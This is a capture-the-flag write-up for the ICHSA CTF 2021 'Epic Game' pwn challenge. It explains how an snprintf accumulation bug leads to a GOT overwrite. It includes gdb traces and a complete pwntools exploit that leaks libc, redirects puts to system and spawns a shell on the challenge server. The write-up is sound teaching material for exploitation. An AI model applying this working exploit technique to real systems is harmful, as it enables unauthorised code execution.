

# Epic Game - ICHSA CTF 2021 - Hardware and Side-chanel Attacks
Category: PWN, 350 Points

## Description



 
And attached file [epic_game.zip](epic_game.zip)

## Epic Game Solution


Let's get information about the compiled binary ```app.out``` which included in the attached zip file using checksec:

```console
┌─[evyatar@parrot]─[/ichsa2021/reversing/epicgame] 
└──╼ $ checksec app.out
[*] '/ichsa2021/reversing/epicgame'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can see 64bit file, [Partial RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/), [Canary](https://ctf101.org/binary-exploitation/stack-canaries/), [NX enabled](https://ctf101.org/binary-exploitation/no-execute/) and [No PIE](https://en.wikipedia.org/wiki/Position-independent_code).

Let's try to run the binary:
```console
┌─[evyatar@parrot]─[/ichsa2021/reversing/epicgame] 
└──╼ $ ./app.out
Hello epic warrior, it's time to begin your quest

Choose your character:
	1 - Mighty warrior
	2 - Wizard        
	3 - Elf           

Your Choice:
2
Choose your character name (limit to 12 chars)
Your Choice:
evyatar
Hello evyatar The Wizard!!!
Your health is 1200 pt.
Your shield is 400 pt.
Your strength is 200 pt.
Your lucky number is 140370524230848
You will need 2147483647 points to get the flag
Good luck, the kingdom trust you!!

You meet a Evil snake!!!
evyatar
choose your move:
1 - hit 
2 - protect
3 - run

Your Choice:
1
you killed an evil creature, kudos!!!

your current health 1150
You meet a Dragon!!!
evyatar
choose your move:
1 - hit 
2 - protect
3 - run

Your Choice:
1
R.I.P evyatar The Wizard
You were a brave warrior but not enough to get a flag
```

Let's try to debug it using gdb:
```asm
┌─[evyatar@parrot]─[/ichsa2021/reversing/epicgame] 
└──╼ $gdb app.out
gef➤  pattern create 512
[+] Generating a pattern of 512 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaabzaaaaaacbaaaaaaccaaaaaacdaaaaaaceaaaaaacfaaaaaacgaaaaaachaaaaaaciaaaaaacjaaaaaackaaaaaaclaaaaaacmaaaaaacnaaaaaac
[+] Saved as '$_gef3'
gef➤  r
Hello epic warrior, it's time to begin your quest

Choose your character:
	1 - Mighty warrior
	2 - Wizard        
	3 - Elf           

Your Choice:
2
Choose your character name (limit to 12 chars)
Your Choice:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaabzaaaaaacbaaaaaaccaaaaaacdaaaaaaceaaaaaacfaaaaaacgaaaaaachaaaaaaciaaaaaacjaaaaaackaaaaaaclaaaaaacmaaaaaacnaaaaaac
Input Error

Hello aaaaaaaabaaa The Wizard!!!
Your health is 1200 pt.
Your shield is 400 pt.
Your strength is 200 pt.
Your lucky number is 140737348003008
You will need 2147483647 points to get the flag
Good luck, the kingdom trust you!!

You meet a Demon!!!
aaaaaaaabaaa
choose your move:
1 - hit 
2 - protect
3 - run

Your Choice:
Input Error

...

Your Choice:
Input Error

aaaaaaaabaaa
choose your move:
1 - hit 
2 - protect
3 - run

Your Choice:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaabzaaaaaacbaaaaaaccaaaaaacdaaaaaaceaaaaaacfaaaaaacgaaaaaachaaaaaaciaaaaaacjaaaaaackaaaaaaclaaaaaacmaaaaaacnaaaaaac
Input Error

aaaaaaaabaaa
choose your move:
1 - hit 
2 - protect
3 - run

Your Choice:
Input Error

...

aaaaaaaabaaa
choose your move:
1 - hit 
2 - protect
3 - run

Your Choice:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaabzaaaaaacbaaaaaaccaaaaaacdaaaaaaceaaaaaacfaaaaaacgaaaaaachaaaaaaciaaaaaacjaaaaaackaaaaaaclaaaaaacmaaaaaacnaaaaaac
Input Error

aaaaaaaabaaa
choose your move:
1 - hit 
2 - protect
3 - run

Your Choice:
Input Error


Program received signal SIGBUS, Bus error.

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007ffff7dc9fa0  →  0x0000000000000000
$rbx   : 0x00007fffffffdb40  →  0xfffffffffbad8000
$rcx   : 0x6161616161a2a260
$rdx   : 0x9e9e9e9e9e9da25f
$rsp   : 0x00007fffffffdb40  →  0xfffffffffbad8000
$rbp   : 0x6161616161a2a260
$rsi   : 0x6161616161a2a260
$rdi   : 0x00007fffffffdb40  →  0xfffffffffbad8000
$rip   : 0x00007ffff7a6a9c9  →  <vsnprintf+121> mov BYTE PTR [rbp+0x0], 0x0
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x00007ffff7b80c40  →  0x0002000200020002
$r11   : 0x246             
$r12   : 0x9e9e9e9e9e9da25f
$r13   : 0x0000000000402015  →  0x6f6c6c6548007325 ("%s"?)
$r14   : 0x00007fffffffdcb0  →  0x0000003000000018
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb40│+0x0000: 0xfffffffffbad8000	 ← $rbx, $rsp, $rdi
0x00007fffffffdb48│+0x0008: 0x0000000000000000
0x00007fffffffdb50│+0x0010: 0x0000000000000000
0x00007fffffffdb58│+0x0018: 0x0000000000000000
0x00007fffffffdb60│+0x0020: 0x0000000000000000
0x00007fffffffdb68│+0x0028: 0x0000000000000000
0x00007fffffffdb70│+0x0030: 0x0000000000000000
0x00007fffffffdb78│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7ffff7a6a9ba <vsnprintf+106>  jmp    0x80004089330b
   0x7ffff7a6a9bf <vsnprintf+111>  mov    esi, ebp
   0x7ffff7a6a9c1 <vsnprintf+113>  mov    QWORD PTR [rsp+0xd8], rax
 → 0x7ffff7a6a9c9 <vsnprintf+121>  mov    BYTE PTR [rbp+0x0], 0x0
   0x7ffff7a6a9cd <vsnprintf+125>  call   0x7ffff7a723f0 <_IO_str_init_static_internal>
   0x7ffff7a6a9d2 <vsnprintf+130>  mov    rdi, rbx
   0x7ffff7a6a9d5 <vsnprintf+133>  mov    rdx, r14
   0x7ffff7a6a9d8 <vsnprintf+136>  mov    rsi, r13
   0x7ffff7a6a9db <vsnprintf+139>  call   0x7ffff7a3d490 <_IO_vfprintf_internal>
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "app.out", stopped 0x7ffff7a6a9c9 in _IO_vsnprintf (), reason: SIGBUS
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7a6a9c9 → _IO_vsnprintf(string=0x6161616161a2a260 <error: Cannot access memory at address 0x6161616161a2a260>, maxlen=<optimized out>, format=0x402015 "%s", args=0x7fffffffdcb0)
[#1] 0x7ffff7a470cf → __GI___snprintf(s=<optimized out>, maxlen=<optimized out>, format=<optimized out>)
[#2] 0x401397 → log_error()
[#3] 0x401aea → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
_IO_vsnprintf (string=0x6161616161a2a260 <error: Cannot access memory at address 0x6161616161a2a260>, maxlen=<optimized out>, format=0x402015 "%s", args=args@entry=0x7fffffffdcb0) at vsnprintf.c:112
112	vsnprintf.c: No such file or directory.
gef➤
```

So we can see the binary crash with the following trace:
```asm
──────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7a6a9c9 → _IO_vsnprintf(string=0x6161616161a2a260 <error: Cannot access memory at address 0x6161616161a2a260>, maxlen=<optimized out>, format=0x402015 "%s", args=0x7fffffffdcb0)
[#1] 0x7ffff7a470cf → __GI___snprintf(s=<optimized out>, maxlen=<optimized out>, format=<optimized out>)
[#2] 0x401397 → log_error()
[#3] 0x401aea → main()
``` 

We can see crash in [snprintf](https://linux.die.net/man/3/snprintf) function which called from  ```log_error``` function.

Let's try to observe on ```log_error``` function ([./ctfd/epic_game.c#L49-L61](./ctfd/epic_game.c#L49-L61)):
```C
void log_error(char* buff)
{
    puts("Input Error\n");
    if(write_to_log)
    {
        curr += snprintf(error_log+curr, sizeof(error_log)-curr, "%s", buff);
        if (curr == sizeof(error_log))
        {
           write_to_log = false;
           //TODO: write the log buffer to file
        }
    }
}
``` 

By reading the return value descriptiom from [snprintf](https://linux.die.net/man/3/snprintf) we can see that:
>### Return value
> int snprintf(char *str, size_t size, const char *format, ...);
>Upon successful return, these functions return the number of characters printed (excluding the null byte used to end output to strings).
>The functions snprintf() and vsnprintf() do not write more than size bytes (including the terminating null byte ('\0')). If the output was truncated due to this limit then the return value is the number of characters (excluding the terminating null byte) which would have been written to the final string if enough space had been available. Thus, a return value of size or more means that the output was truncated. (See also below under NOTES.)

```snprintf``` returns the size of bytes written and accumulating the result into ```cur += snprintf(...)``` and
The size of how much data can be written is enforced by the 2nd parameter ```sizeof(error_log)-curr```.

Basically ```curr``` is being used to determine how much data can be written.


Let's observer the follow line ([./ctfd/epic_game.c#L54](./ctfd/epic_game.c#L54)):
```C
curr += snprintf(error_log+curr, sizeof(error_log)-curr, "%s", buff);
```

Where ([./ctfd/epic_game.c#L3-L7](./ctfd/epic_game.c#L3-L7))
```C
/**log vars**/
char error_log[1024] = {0};
uint64_t write_to_log = 0;
uint64_t curr = 0;
/************/
```

So if we write more then 1024 bytes, Let's say with 1026 bytes```snprintf``` will called with ```error_log+curr``` where ```curr``` is 1026 like that we can get overflow.


To fully understand the overflow we can just read the following simple C program:
```C
int main()
{
	//The offset between error_log to overflowChar is 15 bytes.
	char overflowChar='a'; // Located on 0x00dff86f
	char error_log[3]; // Located on 0x00dff860
	
	char buff[] = "abcde\n"; // Buffer big then size of error_log
	unsigned int curr = 0;
	
	printf("Before: %c",overflowChar); 
	
	//After this line curr equals to 6, Size is 3-0=3
	curr += snprintf(error_log + curr, sizeof(error_log) - curr, "%s", buff);
	
	// curr=6 so we write to error_log+6 which is 0x00dff860+0x6=0x00dff866, Size is 3-6=0xFFFFFFFD
	//After this link curr equals to 12
	curr += snprintf(error_log + curr, sizeof(error_log) - curr, "%s", buff);
	
	// curr=12 so we write to error_log+6 which is 0x00dff860+0xC=0x00dff86c
	// So it's mean now if we write again the 4th byte of buff will overwrite the value of overflowChar
	curr += snprintf(error_log + curr, sizeof(error_log) - curr, "%s", buff);
	
	//Now overflowChar will equals to 'd'
	printf("After: %c",overflowChar);

	return 0;
}
```

As we see before ([./ctfd/epic_game.c#L3-L7](./ctfd/epic_game.c#L3-L7)):
```C
/**log vars**/
char error_log[1024] = {0};
uint64_t write_to_log = 0;
uint64_t curr = 0;
/************/
```

```curr``` is located right after ```write_to_log```. Since we have an overflow we can control the value of ```curr``` which it's can help us to write value to address located on ```error_log+curr``` using ```snprintf``` as described above and actually we can get [Write-What-Where](https://www.martellosecurity.com/kb/mitre/cwe/123/).


According ```checksec``` we see that we have [Partial RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) mitigation - It's mean we have potential GOT overwrite.

Let's try to observe [GOT](https://ctf101.org/binary-exploitation/what-is-the-got/) using gdb:
```asm
gef➤  got

GOT protection: Partial RelRO | GOT functions: 13
 
[0x404018] puts@GLIBC_2.2.5  →  0x7ffff7a62aa0
[0x404020] strlen@GLIBC_2.2.5  →  0x401046
[0x404028] __stack_chk_fail@GLIBC_2.4  →  0x401056
[0x404030] printf@GLIBC_2.2.5  →  0x401066
[0x404038] snprintf@GLIBC_2.2.5  →  0x7ffff7a47040
[0x404040] memset@GLIBC_2.2.5  →  0x401086
[0x404048] read@GLIBC_2.2.5  →  0x401096
[0x404050] srand@GLIBC_2.2.5  →  0x7ffff7a25cd0
[0x404058] fgets@GLIBC_2.2.5  →  0x7ffff7a60c00
[0x404060] memcpy@GLIBC_2.14  →  0x4010c6
[0x404068] time@GLIBC_2.2.5  →  0x7ffff7ffb930
[0x404070] open@GLIBC_2.2.5  →  0x4010e6
[0x404078] strtoul@GLIBC_2.2.5  →  0x7ffff7a27260

gef➤  print &error_log
$14 = (<data variable, no debug info> *) 0x4040c0 <error_log>
gef➤  x/s 0x4044c0
0x4044c0 <write_to_log>:	"\001"
gef➤  x/s 0x4044c8
0x4044c8 <curr>:	"?"
```

As we can see the address of ```error_log``` buffer is ```0x4040c0``` and ```GOT``` started from ```0x404018``` so it's mean ```error_log+curr``` may not work.

But what if we can use [Two’s Complement](https://en.wikipedia.org/wiki/Two%27s_complement) to do that?

```error_log``` located on ```0x4040c0```, ```curr``` located on ```0x4044c8``` which is 1032 bytes offset from ```error_log``` ```(0x4044c8-0x4040c0=0x408)```.

So if we want to overwrite ```puts``` address which located on ```0x404018``` and ```error_log``` located on ```0x4040c0``` where the offset is ```-168(0xffffffffffffff58)``` It's mean we need to overwrite the address that located on ```&error_log-curr``` where ```curr=0xffffffffffffff58``` (unsigned representation of -168 using Two’s Complement) which this address its ```puts``` (Actually It isn't exactly -168 because the program add the length of our payload - We talk about that later).


By reading the code we can see the following function ([./ctfd/epic_game.c#L9-L47](./ctfd/epic_game.c#L9-L47)):
```C
void init_player(player* p_player, uint32_t character_type)
{
    uint64_t luck = rand;
    ...
    p_player->luck = luck
...
```

We can see ```luck``` get the address of ```rand``` function - so we have a leak address from libc.

We have leak address from libc, We have overflow and our plan is to overwrite ```puts``` function from GOT, So let's start.

### Step 1: Send /bin/sh as name, leak rand libc address
```python
from pwn import *

elf = ELF('./app.out')
TARGET_LIBC = "libc.so.6"

if args.REMOTE:
    libc = ELF(TARGET_LIBC, checksec=False)
    p = remote('epic_game.ichsa.ctf.today',8007)
else:
    #p = gdb.debug(elf.path)
    libc = elf.libc
    p = process(elf.path)

# String prefixes
CHOICE_STR = b"Your Choice:\n"
RAND_LIBC_PREFIX_STR = b"Your lucky number is "


# Send /bin/sh as name 
with log.progress("Step 1: Send /bin/sh as name"):
    p.sendlineafter("Your Choice:\n", "1")
    p.sendlineafter("Your Choice:\n", "/bin/sh")
```

We send ```/bin/sh``` as name thats because we overwrite ```puts```, the first call of ```puts``` (after buffer overwrite) is ```puts(current_player.name);``` (line 145) so actually if we overwrite ```puts``` with ```system``` it's lead the name to be the argument of ```system``` which is ```/bin/sh```.


### Step 2: Leak lib address from current_player.name
```python
# Leak libc address from current_player.luck
with log.progress("Step 2: Leak lib address"):
    p.recvuntil(RAND_LIBC_PREFIX_STR)
    libc_rand = int(p.recvline())
    libc.address = libc_rand - libc.sym.rand

    log.success(f"libc address {hex(libc.address)}")
```

Read the leak address of ```libc``` and calculate the address of ```libc```.


### Step 3: Flood ```error_log``` to make curr=1032

```python
# Get error_log limit by sending 515 * A twice (to make curr=1032)
with log.progress("Step 3: Write 1032 bytes to error_log (curr=1032)"):
    p.sendlineafter(CHOICE_STR, cyclic(515))
    p.sendlineafter(CHOICE_STR, cyclic(515))
```

We send ```512bytes + \n + 512bytes + \n``` to make ```curr=1032```.

As described before, If ```curr=1032``` so the address of ```error_log+curr``` is the address of ```curr``` and it's allow us to overwrite ```curr``` with ```puts``` address.

### Step 4: Overwrite curr with puts address and overwrite puts with system

```python
# Write into curr the address of puts (minus 9 bytes we just written) and overwrite puts GOT with system
with log.progress("Step 4: Overwrite curr and puts addresses"):
    len_written=len(p64(elf.got["puts"] - elf.sym.error_log, sign="signed")) + len("\n")
    p.sendlineafter(CHOICE_STR, p64(elf.got["puts"] - elf.sym.error_log - len_written, sign="signed"))
    p.sendlineafter(CHOICE_STR, p64(libc.sym.system))
```

Calculate ```len_written``` which is the length of the bytes we just written (9), Next, Overwrite ```curr``` with the offset of ```error_log``` from ```puts``` which is ```-168-9``` because the program add the length we just written.

### Shell 
So let's write all together [exploit.py](exploit.py):
```python
from pwn import *

elf = ELF('./app.out')
TARGET_LIBC = "libc.so.6"

if args.REMOTE:
    libc = ELF(TARGET_LIBC, checksec=False)
    p = remote('epic_game.ichsa.ctf.today',8007)
else:
    #p = gdb.debug(elf.path)
    libc = elf.libc
    p = process(elf.path)

CHOICE_STR = b"Your Choice:\n"
RAND_LIBC_PREFIX_STR = b"Your lucky number is "

# Send /bin/sh as name (because we overwrite puts and the name is the argument of the first call of puts - it's lead to be the 1st argument of system)
with log.progress("Step 1: Send /bin/sh as name"):
    p.sendlineafter("Your Choice:\n", "1")
    p.sendlineafter("Your Choice:\n", "/bin/sh")

# Leak libc address from current_player.luck
with log.progress("Step 2: Leak lib address"):
    p.recvuntil(RAND_LIBC_PREFIX_STR)
    libc_rand = int(p.recvline())
    libc.address = libc_rand - libc.sym.rand

    log.success(f"libc address {hex(libc.address)}")

# Get error_log limit by sending 515 * A twice (to make curr=1032)
with log.progress("Step 3: Write 1032 bytes to error_log (curr=1032)"):
    p.sendlineafter(CHOICE_STR, cyclic(515))
    p.sendlineafter(CHOICE_STR, cyclic(515))

# Write into curr the address of puts (minus 9 bytes we just written) and overwrite puts GOT with system
with log.progress("Step 4: Overwrite curr and puts addresses"):
    len_written=len(p64(elf.got["puts"] - elf.sym.error_log, sign="signed")) + len("\n")
    p.sendlineafter(CHOICE_STR, p64(elf.got["puts"] - elf.sym.error_log - len_written, sign="signed"))
    p.sendlineafter(CHOICE_STR, p64(libc.sym.system))


p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/ichsa2021/reversing/epicgame] 
└──╼ $ python3 exploit.py REMOTE
[*] '/ichsa2021/reversing/epicgame/app.out'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to epic_game.ichsa.ctf.today on port 8007: Done
[+] Step 1: Send /bin/sh as name: Done
[+] Step 2: Leak lib address: Done
[+] libc address 0x7feaf47af000
[+] Step 3: Write 1032 bytes to error_log (curr=1032): Done
[+] Step 4: Overwrite curr and puts addresses: Done
[*] Switching to interactive mode
Input Error

/bin/sh
choose your move:
1 - hit 
2 - protect
3 - run

...

choose your move:
1 - hit 
2 - protect
3 - run

Your Choice:
Input Error

$ ls
app.out  flag.txt
$ cat flag.txt
ICHSA_CTF{Th3_cyb3r_5p1r1t_0f_luck_I5_s7r0ng_w17h_y0u}

```

And we get the flag ```ICHSA_CTF{Th3_cyb3r_5p1r1t_0f_luck_I5_s7r0ng_w17h_y0u}```.